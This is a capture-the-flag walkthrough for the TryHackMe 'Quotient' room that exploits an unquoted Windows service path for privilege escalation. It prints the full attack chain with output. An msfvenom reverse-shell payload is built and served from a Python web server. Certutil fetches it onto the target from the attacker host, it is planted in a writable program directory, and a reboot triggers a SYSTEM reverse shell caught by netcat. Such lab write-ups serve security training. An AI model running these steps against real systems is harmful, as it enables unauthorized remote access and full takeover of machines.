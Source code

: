 ## Link to tryhackme room

[quotient](https://tryhackme.com/room/quotient)

## Save target IP to a variable (NOTE: Your IP will be different)

`export target="10.10.136.60"`

## RDP to the target box  

```
xfreerdp /v:${target} /u:sage +clipboard                                                                                                                                                         127 ⨯ 2 ⚙
[12:55:19:113] [22656:22657] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[12:55:19:113] [22656:22657] [WARN][com.freerdp.crypto] - CN = thm-quotient
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.10.136.60:3389) 
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - Common Name (CN):
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] -      thm-quotient
[12:55:19:115] [22656:22657] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.10.136.60:3389 (RDP-Server):
        Common Name: thm-quotient
        Subject:     CN = thm-quotient
        Issuer:      CN = thm-quotient
        Thumbprint:  3c:45:3a:cc:63:da:97:61:e5:68:95:6f:e6:59:7a:38:1a:b3:24:b2:39:da:2b:44:c0:1e:6b:0e:0f:9d:62:42
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) y
Password:
```  

## Unquoted binary paths

Open a command prompt and search for services with unquoted binary paths:  

```
C:\Users\Sage>wmic service get name,displayname,pathname,startmode | findstr /i "auto"|findstr /i /v "c:\windows\\" | findstr /i /v """
Developmenet Service                                                                Development Service                       C:\Program Files\Development Files\Devservice Files\Service.exe                    Auto
```

Great! We've found a service that has an unquoted binary paths.  Next, let's create a tcp reverse shell, deliver it to the target box, and attempt to exploit this misconfiguration.  


## Create a tcp reverse shell

On attacker box create the reverse shell:    

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.0.25 LPORT=4445 -f exe-service -o Service.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: Service.exe
```

## Start up python web server on 

On the attacker box start the python web server to serve the payload

```
python3 -m http.server 8090                                                    
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
```

In an separate window also in the attacker box, start an netcat listener: `nc -lvnp 4445`  

## Download the reverse shell

On the victim box, download the payload

```
C:\Users\Sage>certutil -urlcache -split -f "http://10.9.0.25:8090/Service.exe" Service.exe
****  Online  ****
  0000  ...
  be00
CertUtil: -URLCache command completed successfully.
```

## Payload location

Let's try to place the payload within the execution path so it is executed before the "Service.exe" binary. We don't have access to create a file in "C:\" or "C:\Program Files", but we do have write access under "C:\Program Files\Development Files".  So let's rename our binary to Devservice.exe and place it in this directory:  
`C:\Users\Sage\>rename Service.exe Devservice.exe`  
`C:\Users\Sage\>move Devservice.exe "C:\Program Files\Development Files\"`  

Let's check the current status of the "Development Service" service:  
```
C:\Users\Sage>sc query "Development Service"

SERVICE_NAME: Development Service
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```

It is currently stopped. Let's start up our listener on the attack box and attempt to start the service:  
- On attack box: `nc -lvnp 4445`  
- on victim box: `sc start "Development Service"  

Our attempt to start the service failed because we do not have sufficient privileges:  
```
C:\Users\Sage>sc start "Development Service"
[SC] StartService: OpenService FAILED 5:

Access is denied.
```

Let's see what privileges we do have:  
```
PS C:\Users\Sage> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Users\Sage>
```

Looks like we can reboot the victim box with the seShutdownPrivilege privilege and we did see from the wmic output that the "Development Service" auto starts.  so let's reboot the victim box and wait for a connection to our listener:  `shutdown /r /t 0`  

After a few minutes, we receive a callback to our listener:
```
nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.9.0.25] from (UNKNOWN) [10.10.191.66] 49670
Microsoft Windows [Version 10.0.17763.3165]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>


C:\Windows\system32>
```

Checking our privileges we see we have SYSTEM access:  
```
C:\Windows\system32>whoami
whoami
nt authority\system
```

Let's get flag and call it a day:  
```
C:\Windows\System32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 4448-19F9

 Directory of C:\Users\Administrator\Desktop

07/19/2022  01:23 PM    <DIR>          .
07/19/2022  01:23 PM    <DIR>          ..
07/19/2022  11:34 AM                17 flag.txt
               1 File(s)             17 bytes
               2 Dir(s)  25,160,310,784 bytes free

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
<REDACTED>
```


Move the payload to `C:\Program Files\Development Files`





